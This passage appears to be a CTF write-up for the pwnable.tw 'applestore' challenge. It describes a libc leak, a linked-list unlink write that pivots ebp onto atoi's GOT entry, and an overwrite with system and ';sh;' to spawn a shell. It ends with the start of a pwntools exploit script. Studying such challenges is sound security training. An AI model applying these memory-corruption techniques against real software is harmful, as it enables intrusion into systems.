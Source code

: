 ```
ebp-0x22 -> 27 
ebp-0x20 -> the address you want to leak
ebp-0x1c -> (the price of product)
ebp-0x18 -> (the next item) c
ebp-0x14 -> (the previous item) d
...
ebp
```

Now, you can get the libc base, so what next ?

After removing an element from linkedlist, they merge 2 segments like this: 
```c
v4 = *(_DWORD *)(v2 + 8);
v5 = *(_DWORD *)(v2 + 12);
if ( v5 )
*(_DWORD *)(v5 + 8) = v4;
if ( v4 )
*(_DWORD *)(v4 + 12) = v5;
```
So, what if I remove Iphone 8 from linked-list. Assume what's in ebp-0x18 is c and ebp-0x14 is d.
they will do this:
```c
*(d + 8) = c
*(c + 12) = d
```

If we overwrite address of atoi at GOT + 0x22 to ebp-0x18 and ebp-8 to ebp-0x14, after leave instruction (means esp = ebp + 4, ebp = [ebp]), we can make ebp points to the address of atoi at GOT + 0x22. You can get the address of stack leaked from environ in libc, and then calculate the ebp of delete function.

```
   0x08048c05 <+50>:	lea    eax,[ebp-0x22]
   0x08048c08 <+53>:	mov    DWORD PTR [esp],eax
   0x08048c0b <+56>:	call   0x8048799 <my_read>
   0x08048c10 <+61>:	lea    eax,[ebp-0x22]
   0x08048c13 <+64>:	mov    DWORD PTR [esp],eax
   0x08048c16 <+67>:	call   0x8048560 <atoi@plt>
```

And now using my_read in handler you can overwrite address pointed by (ebp-0x22), in this case, it's atoi's GOT address.Overwrite system address and ';sh;' to it, then you can get the shell.

###### Exploit:
``` py
from pwn import *

exe = ELF("./applestore_patched")
libc = ELF("./libc_32.so.6")
ld = ELF("./ld-2.23.so")

context.binary = exe
context.log_level = "debug"

def conn():
    if args.LOCAL:
        r = process([exe.path])
        # r = gdb.debug ([exe.path], "b *handler")
    else:
        r = remote("chall.pwnable.tw", 10104)

    return r

def add (p, number):
    p.sendafter (b'> ', b'2')
    p.sendafter (b'> ', number)
```